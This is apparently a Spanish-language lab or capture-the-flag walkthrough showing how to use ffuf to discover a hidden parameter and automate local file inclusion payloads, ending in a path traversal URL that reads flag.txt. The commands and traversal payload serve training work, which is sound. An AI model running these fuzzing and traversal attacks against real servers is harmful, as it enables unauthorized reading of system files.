




# LFI: ffuf para automatizar ataques 👩‍💻

La página web que vulneraremos es



* No tenemos ninguna forma de apuntar a un archivo con algún parámetro. ❓

---

Ahora usaremos `ffuf` para descubrir algún parámetro mediante el cual podremos apuntar a un archivo. 

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<IP Web>:<Puerto>/index.php?FUZZ=value' -fs 2309
```

* `-fs 2309` En mi caso se repetian múltiples parárametro con esta misma cantida de bytes por lo que oculte todas las respuestas con esa cantidad de bytes. 1️⃣0️⃣

<p align="center">
    
</p>

---

Ahora que tenemos un parámetro mediante el cual apuntar a un recurso del sistema, automatizaremos `payloads LFI` usando ffuf. 🐶

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ  -u 'http://<IP Web>/index.php?view=FUZZ' -fs 1935
```

<p align="center">
    
</p>

---

Con los payloads LFI ya obtenidos obtendremos el contenido del archivo `flag.txt` ubicado en la raiz del sistema `/`

* **URL:** `http://<IP Web>:<Puerto>/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt`

<p align="center">
    
</p>
